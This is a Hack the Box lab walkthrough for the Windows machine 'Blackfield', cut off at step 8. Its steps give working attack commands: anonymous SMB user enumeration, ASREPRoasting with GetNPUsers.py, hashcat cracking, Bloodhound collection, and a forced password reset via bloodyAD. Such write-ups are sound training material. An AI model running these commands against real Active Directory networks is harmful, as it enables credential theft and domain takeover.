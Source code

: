 # Blackfield

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Hard**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan

<img width="912" height="443" alt="image" src="https://github.com/user-attachments/assets/d44570cb-edcc-41f3-a6af-2078cdb5ab70" />

2. SMB allows anonymous logon. We find a profiles$ share that has a list of users so create a user list from it.

`smbclient //blackfield.local/profiles$ -U '' -c ls | awk '{print $1}' > users.list`

3. Now that we have a users list, we will try ASREPRoasting to get a user hash and gain an initial foothold in the domain.

`GetNPUsers.py -request -usersfile users.list -outputfile asreproastables.txt -dc-ip 10.129.229.17 -format hashcat 'blackfield.local/'`

<img width="910" height="108" alt="image" src="https://github.com/user-attachments/assets/097681fb-ab6e-4777-8df8-5e7f5a8b9030" />

4. Success! Now crack the hash and we get user support's credentials. 

`hashcat -m 18200 asreproastables.txt /usr/share/wordlists/rockyou.txt`

5. Now that we have a valid credentials on the domain, we run Bloodhound to enumerate the network

`sudo bloodhound-python -d blackfield.local -u support -p $(cat recon/support.pass) -ns 10.129.229.17 -c all` 

6. Load files onto Bloodhound and find a path from support user to machine

<img width="708" height="96" alt="image" src="https://github.com/user-attachments/assets/26b38ef7-a133-462a-8ee1-ac1240140707" />

7. Since the user support can change Audit2020's password, we will change password and enumerate further with Audit2020's credentials.

`bloodyAD --host 10.129.229.17 -d blackfield.local -u support -p $(cat ../recon/support.pass) set password Audit2020 Password1`

<img width="907" height="319" alt="image" src="https://github.com/user-attachments/assets/688e3680-1ff9-4010-9be4-11f626c62e5b" />

8. The Audit2020 user has READ permissions on the forensics share. 
